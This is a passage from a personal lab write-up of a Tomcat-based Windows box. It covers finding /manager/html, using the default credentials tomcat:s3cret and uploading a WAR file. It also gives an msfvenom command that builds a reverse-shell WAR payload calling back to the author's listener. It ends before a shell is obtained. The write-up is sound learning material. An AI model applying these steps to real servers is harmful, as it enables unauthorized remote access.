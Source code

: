 **Answer: /manager/html**

## Task 4

Since the web server's using **Apache Tomcat**, I'll see if there are default credentials that I can find that could be used.

<img width="786" height="802" alt="image" src="https://github.com/user-attachments/assets/96b0269d-ccd5-4f04-a11a-13a134a8c280" />

I found a bunch lmao. 

Anyways, I just realized that in the previous pic where we found the directory, there were default credentials listed lmao.

**Answer: tomcat:s3cret**

## Task 5

<img width="1908" height="101" alt="image" src="https://github.com/user-attachments/assets/a755fa2a-f55e-4b5d-9a96-794b77bea67c" />

I'm guessing it's that, since that's pretty much the only upload feature in this page.

**Answer: WAR**

## User and Root Flags

Ok so going forward, I'm not sure what to do. This is my first Windows machine after all lol. So, I'm gonna use a writeup.

**A bit of searching and reading later**

Alright, apparently I have to use ```msfvenom```. Been a while since I used that, so I'll try to explain how it was used here.

**Command:**

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.8 LPORT=1234 -f war > revshell.war
```

Refer to my [_**other notes**_](https://www.notion.so/Metasploit-Commands-120675a946e480369970f6db49434425?source=copy_link) here for more details on each flag.

For this case, we'll need a **windows reverse shell payload**, which is why the following payload above was used. There are other payloads though, just use ```msfvenom -l payloads``` to see the others. 

<img width="399" height="62" alt="image" src="https://github.com/user-attachments/assets/6e8785fb-8440-4543-87e8-aab599003501" />

Anyways, we have our **war** file now, so let's upload this and see what happens.

<img width="1920" height="752" alt="image" src="https://github.com/user-attachments/assets/13f1ed10-f6dd-42be-bb20-2334788cad4d" />

<img width="1920" height="350" alt="image" src="https://github.com/user-attachments/assets/efdafc19-7a70-48b4-be15-16e1a9f0d112" />

Ok so it looks like it uploaded but I didn't get a revshell :/

